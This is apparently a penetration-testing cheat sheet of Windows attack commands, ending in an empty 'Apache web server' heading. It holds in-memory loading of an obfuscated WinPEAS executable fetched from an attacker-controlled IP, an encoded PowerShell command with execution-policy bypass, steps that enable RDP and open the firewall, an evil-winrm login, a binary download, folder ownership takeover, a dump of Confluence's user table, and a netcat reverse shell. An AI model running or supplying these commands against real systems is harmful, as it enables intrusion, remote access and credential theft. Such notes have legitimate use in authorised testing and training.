 ### WinPEAS In-memory Obfuscated Execution:
``` powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://192.168.45.172:8000/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

powershell.exe -NoP -NonI -Exec Bypass -encodedCommand JAB3AHAAPQBbAFMAeQBzAHQ...

```
### Enable RDP:
```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
### Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -p "qwertqwertqwert123\!\!"
```
### Good Nmap Scan:
```
sudo nmap -A -Pn -n 172.16.248.10
```
### PowerShell Download Binary:
``` powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
### Take control of Windows folder in PowerShell:
``` powershell
icacls "C:\Path\to\folder" /setowner "<youruser>" /T /C
```
### PostgreSQL workings:
``` powershell
#Connect to server
psql -h <ip> -p <port> -U postgres

#List datbases (exit with q)
\l

#Connect to database
\c <databasename>

#Dump from table
SELECT * FROM <tablename>;

#Confluence server example:
\c confluence
SELECT * FROM cwd_user;
```
### Powershell Wget:
```powershell
powershell wget -Uri <url> -OutFile <outfile>
```
### Netcat reverse shell:
```bash
nc.exe -e cmd.exe <remoteip> <port>
```
### Apache web server:
```bash
```